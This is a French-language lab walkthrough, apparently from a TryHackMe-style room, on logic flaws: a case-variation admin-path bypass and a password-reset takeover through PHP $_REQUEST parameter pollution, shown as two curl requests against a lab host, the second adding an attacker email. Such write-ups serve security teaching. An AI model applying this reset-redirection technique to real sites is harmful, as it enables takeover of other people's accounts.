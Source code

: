 > Une faille logique se produit lorsque le chemin logique typique d'une application est contourné ou manipulé par un pirate.

Exemple: Un utilisateur non authentifié demandant **`/adMin`** ne verra pas ses privilèges vérifiés et la page lui sera affichée, contournant totalement les contrôles d'authentification.

## Reset password of other user (GET)
À ce stade, vous vous demandez peut-être quelle pourrait être la vulnérabilité de cette application, car vous devez connaître à la fois l'e-mail et le nom d'utilisateur

- Cette procédure pas à pas nécessitera l'exécution des deux requêtes Curl.
- Dans la deuxième étape du processus de réinitialisation de l'e-mail, le nom d'utilisateur est soumis dans un champ POST au serveur Web et l'adresse e-mail est envoyée dans la demande de chaîne de requête en tant que champ GET.

- La variable PHP `$_REQUEST` est un tableau qui contient des données reçues de GET et POST.
- Si le même nom de clé est utilisé à la fois pour la chaîne de requête GET et les données POST, la logique d'application de cette variable favorise les champs de données POST plutôt que la chaîne de requête GET, donc si nous ajoutons un autre paramètre au formulaire POST, nous pouvons contrôler où le mot de passe est réinitialisé.

Curl request 1: effectuer manuellement la demande au serveur Web.

```sh
curl 'http://10.10.200.229/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

```

Curl Request 2

```sh
curl 'http://10.10.200.229/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=ATTACKER_EMAIL'
```

